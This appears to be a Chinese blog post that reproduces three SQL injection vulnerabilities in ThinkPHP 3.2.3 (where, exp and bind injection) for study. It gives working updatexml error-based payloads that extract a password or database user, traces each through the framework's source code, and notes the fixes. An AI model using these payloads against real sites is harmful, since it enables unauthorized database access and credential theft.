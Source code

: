 ```yaml
---
title: "ThinkPhp3漏洞总结"
date: 2020-02-06T17:47:24+08:00
draft: true
tags: [漏洞复现]
categories: []
comment: true
---
```

ThinkPhp3漏洞总结
<!--more-->
# ThinkPhp3漏洞总结

## 环境搭建

- 下载源码


![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20200227170830.png)

- 编辑器使用了phpstrom

![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20200227171652.png)

- 配置数据库

![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20200227172147.png)

- 添加测试数据

![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20200227181617.png)

## Thinkphp3.2.3 where注入

- payload

```
?id[where]=1 and 1=updatexml(1,concat(0x7e,(select password from users limit 1),0x7e),1)%23
```

- 断点

![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20200227210620.png)

### 分析

- 经过htmlspecialchars过滤

![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20200227213305.png)

- 于442行通过think_filter函数进行过滤

![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20200227213938.png)

- 经过ThinkPHP/Library/Think/Model.class.php:779的find()方法

![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20200227215603.png)

- 满足条件则进入

![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20200227221704.png)

- 强制进行转换，转换为了int形

![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20200227222201.png)

- 带入查询

![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20200227222618.png)

- 步骤

```
id=1' -> I() -> find() -> __parseOptions(） ->_parseType()
```

**满足条件才能进去__parseOptions()方法**

- 条件

```
if (isset($options['where']) && is_array($options['where']) && !empty($fields) && !isset($options['join']))
```

- 绕过

```
index.php?id[where]=3 and 1=1
```

### 修复

![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20200227223224.png)


## Thinkphp 3.2.3 exp注入

- 部署环境

![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20200228132814.png)

- payload

```
http://localhost:8888/tp3/index.php?username[0]=exp&username[1]==1%20and%20updatexml(1,concat(0x7e,user(),0x7e),1)
```

![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20200228140738.png)

### 分析
- 进入Model.class.php的822行$this->select($options)

![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20200228142850.png)

- 跟进select方法

![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20200228143015.png)

- 跟踪Driver.class.php中的parseSql方法

![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20200228143524.png)

- 跟踪Driver.class.php中的parseWhere方法

![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20200228152545.png)

- 经过$whereStr .= $this->parseWhereItem($this->parseKey($key), $val)方法，跟踪进去

```
需要时数组才可以进去if语句
```
![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20200228153342.png)

- 语句exp直接拼接构成注入

```
 } elseif ('bind' == $exp) {
                    // 使用表达式
 $whereStr .= $key . ' = :' . $val[1];
```

### 修复

使用I方法接受会通过think_filter函数进行过滤

## thinkphp 3.2.3 bind注入

- payload

```
index.php?id[0]=bind&id[1]=0 and updatexml(1,concat(0x7e,user(),0x7e),1)&password=1
```
- 环境部署

```
    public function index()
    {
        $User = M("Users");
        $user['id'] = I('id');
        $data['password'] = I('password');
        $valu = $User->where($user)->save($data);
        var_dump($valu);
    }
```

**上文说到除了exp还有bind可以进行注入**

- 报错

![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20200228163022.png)

- 进入update方法

![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20200228163643.png)

- 进入到了parseWhereItem方法（bind可以注入）

![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20200228164149.png)

- 于函数bindParam进行了添加冒号

![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20200228172421.png)

- 在Driver.class.php文件execute中进行冒号替换

```
if (!empty($this->bind)) {
            $that           = $this;
            $this->queryStr = strtr($this->queryStr, array_map(function ($val) use ($that) {return '\'' . $that->escapeString($val) . '\'';}, $this->bind));
}
```
- 如果payload不是0的话

![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20200228231232.png)

### 修复

```
https://github.com/top-think/thinkphp/commit/7e47e34af72996497c90c20bcfa3b2e1cedd7fa4
```

![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20200228175421.png)